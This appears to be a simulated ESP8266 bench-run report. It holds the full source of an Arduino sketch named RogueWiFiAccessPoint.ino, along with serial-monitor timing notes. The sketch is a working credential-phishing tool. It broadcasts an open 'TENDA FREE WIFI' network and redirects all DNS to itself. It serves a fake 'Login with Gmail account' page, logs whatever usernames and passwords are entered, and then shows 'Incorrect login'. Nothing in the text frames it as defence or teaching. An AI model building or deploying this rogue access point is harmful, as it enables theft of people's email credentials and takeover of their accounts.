
Bench run of a sketch on a simulated ESP8266 (NodeMCU). On the bench: the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /login?username=1&password=1 received
At 2.5 s:

2.8 s: HTTP request GET /login?username=120&password=120 received
At 3.7 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.8 s, the serial monitor: prints a new line at once (image 2)

The sketch:

RogueWiFiAccessPoint.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

const char* ssid = "TENDA FREE WIFI";      // Replace with your desired SSID
const char* password = NULL;    // Replace with your desired password

DNSServer dnsServer;                   // Create a DNS server
ESP8266WebServer webServer(80);               // Create a web server on port 80

const byte DNS_PORT = 53;              // Standard DNS port

const char *homePage = "<!DOCTYPE html>"
"<html>"
"<body>"
"<div style=\"display: flex;justify-content: center;align-items: center;\">"
"<svg viewBox=\"0 0 2500 952.03\" xmlns=\"http://www.w3.org/2000/svg\" width=\"600\" height=\"400\">"
"<g clip-rule=\"evenodd\" fill-rule=\"evenodd\">"
"<path d=\"M0 0h2500v761.59c0 104.5-85.79 190.44-190.28 190.44H0z\" fill=\"#e8511b\"/>"
"<path d=\"M1275 313.15c-64.03 1.45-113.86 15.64-171.58 53.05 4.67-17.25 9.36-34.35 14.04-53.05H966.02l-42.07 173.18c-14.19 59.34-28.22 117.07-42.25 176.41h149.8l40.64-165.45c20.31-85.78 56.11-129.49 126.4-131.09 62.4 0 85.79 37.41 65.47 118.52l-43.69 178.03h151.42l51.59-212.37c10.8-46.76-3.23-77.88-26.6-101.42-23.37-23.39-64.01-35.81-121.73-35.81zm1068.53-34.64c-27.64 0-50.37 22.73-50.37 50.37 0 27.81 22.72 50.37 50.37 50.37 27.81 0 50.37-22.55 50.37-50.37 0-27.65-22.56-50.37-50.37-50.37zm0 95.31c-24.76 0-44.94-20.18-44.94-44.94s20.18-44.94 44.94-44.94 44.94 20.18 44.94 44.94-20.18 44.94-44.94 44.94zm23.57-56.14c0-6.61-1.87-11.87-5.94-15.26-4.07-3.56-9.84-5.26-17.47-5.26h-18.32v63.6h9.16v-29.51l21.2 29.51h11.36l-17.81-24.59c5.09-.17 9.5-2.04 12.89-5.43 3.41-3.56 4.93-7.97 4.93-13.06zm-13.56 9.33c-3.22 2.04-7.8 3.05-14.25 3.05h-4.75v-24.25h6.95c5.77 0 10.01.68 12.72 2.71 2.54 1.87 4.07 4.92 4.07 8.99 0 4.41-1.69 7.47-4.74 9.5zm-146.87-6.11c-43.75-9.33-93.61-9.33-138.9 0-21.88 4.75-40.53 11.02-57.83 18.66-38.84 17.3-43.75 35.95-57.66 62.41 12.55-3.05 42.23-18.65 76.49-27.98 12.55-3.05 24.93-6.11 39.01-7.8 53.08-9.33 107.69-3.05 92.09 59.36-31.21 0-62.58 0-92.09 3.05-15.6 1.7-29.68 3.05-43.58 4.75-89.04 16.96-142.12 74.96-146.7 128.04v13.91c4.58 48.5 49.86 88.87 149.75 88.87l40.53-1.36h40.53l107.69-1.7 63.05-249.02c3.55-14.01 4.33-28.88.15-42.71-8.49-28.06-30.82-41.15-72.53-48.48zm-90.39 291.87l-45.45 1.53h-3.05c-115.49-1.53-110.91-113.97-17.13-138.9 6.27-1.53 10.85-3.05 17.13-4.75 28.15-4.58 56.13-3.05 85.81-4.58zM675.8 288.16H120.14l-12.42 59.34h190.43l-79.66 318.31H369.9l79.5-318.31zm1148.61-110.73l-39.01 149.75h-75.13c-18.66 0-35.78 1.53-52.91 3.05-56.13 4.75-103.11 18.65-137.2 39.01-46.98 28.15-75.13 70.38-84.46 124.82-1.53 9.5-3.05 17.3-3.05 25.1v13.91c1.53 35.95 17.13 65.63 43.75 87.51 24.76 20.18 66.99 24.93 85.81 24.93 9.33 0 53.08-3.05 95.14-15.6 20.35-4.75 39.01-12.38 56.3-21.88-18.99-1.53-37.65 0-56.3 0-34.43 0-67.16-4.58-92.09-27.98-20.35-18.65-26.46-46.98-18.65-85.98 6.27-37.31 21.88-65.46 48.33-84.12 20.35-14.08 40.53-20.35 62.41-25.1 37.31-6.27 76.32-3.05 113.96-1.53l-57.66 224.71c-4.75 17.13-11.02 35.95-14.08 54.78 49.86 0 124.82 4.58 135.67-34.43l115.49-450.94h-126.32zM874.02 534.76c-7.97 0-18.83 3.05-31.38 10.85-53.08 31.21-104.47 51.56-156.02 60.88-20.18 3.22-38.84 4.58-59.19 4.58-26.63 0-48.33-6.11-65.63-15.43-15.6-10.85-24.93-23.57-24.93-40.53 0-26.63 10.85-40.7 31.2-40.7h35.95c26.46 0 53.08-1.53 82.59-7.8 26.63-4.58 54.61-12.55 84.29-23.4 40.7-15.6 73.43-32.9 101.42-54.61 26.63-21.71 40.7-42.06 42.06-60.71v-4.75c-1.36-14.25-9.33-24.93-24.76-32.9-18.82-10.85-43.75-15.6-74.96-15.6-40.7 0-84.46 6.27-128.04 20.35-14.08 3.22-28.15 9.33-40.53 13.91-57.66 22.05-107.69 53.08-148.39 92.09-48.33 46.98-73.09 92.09-73.09 135.84 0 26.63 13.91 46.98 40.36 62.58 28.15 15.43 64.11 23.4 109.39 23.4 32.73 0 70.21-3.22 110.74-12.72h1.53c39.01-9.33 73.26-20.18 104.64-32.56 23.4-11.02 46.81-25.1 65.46-39.18 20.35-15.6 31.21-27.98 31.21-35.95-.01-4.59-4.59-7.64-13.92-7.64zm-285.59-93.78c12.38-12.38 26.46-24.76 42.06-35.78 18.66-14.08 37.48-23.4 56.13-31.21 21.88-10.85 45.28-15.6 65.63-15.6 15.6 1.53 27.98 3.22 37.31 9.5 7.97 4.58 12.72 12.38 12.72 21.71 0 11.02-7.97 24.93-25.1 39.01-15.6 12.38-35.95 23.4-59.36 32.73-10.85 3.22-20.18 4.75-31.21 7.97-26.46 4.58-56.13 7.63-87.34 7.63-20.18 0-29.51-3.05-29.51-7.63.01-6.29 6.12-14.09 18.67-28.33z\" fill=\"#fff\"/>"
"</g>"
"</svg>"
"</div>"
"<h3 style=\"display: flex;justify-content: center;align-items: center;\"> Login with Gmail account </h3>"
"<div style=\"display: flex;justify-content: center;align-items: center;\">"
"<form action='/login' method='POST'>"
"<input type='text' name='username' style=\"margin: 5px\" placeholder=\"example@gmail.com\"><br>"
"<input type='password' name='password' style=\"margin: 5px\" placeholder=\"*****\"><br>"
"<input type='submit' style=\"margin: 5px\">"
"</form>"
"</div>"
"</body>"
"</html>";

// Function to handle requests to the root URL
void handleRoot() {
  webServer.send(200, "text/html", homePage);
}

void handleLogin(){
  if (webServer.hasArg("username") && webServer.hasArg("password")) {
        String username = webServer.arg("username");
        String password = webServer.arg("password");

        // Print received data
        Serial.print("Received username: ");
        Serial.println(username);
        Serial.print("Received password: ");
        Serial.println(password);
  }
  webServer.send(401, "text/html", "<h1> Incorrect login</h1>");
}

void setup() {
    Serial.begin(115200);

    // Start the Access Point
    WiFi.softAP(ssid, password);

    // Print the AP IP address
    Serial.print("\n\nAccess Point IP: ");
    Serial.println(WiFi.softAPIP());

    // Start the DNS server
    dnsServer.start(DNS_PORT, "*", WiFi.softAPIP());

    // Handle root requests ("/")
    webServer.on("/", handleRoot);
    webServer.on("/login", handleLogin);

    // Start the web server
    webServer.begin();
    Serial.println("Web server started.");
}

void loop() {
    // Process DNS requests
    dnsServer.processNextRequest();

    // Handle web server requests
    webServer.handleClient();
}
```
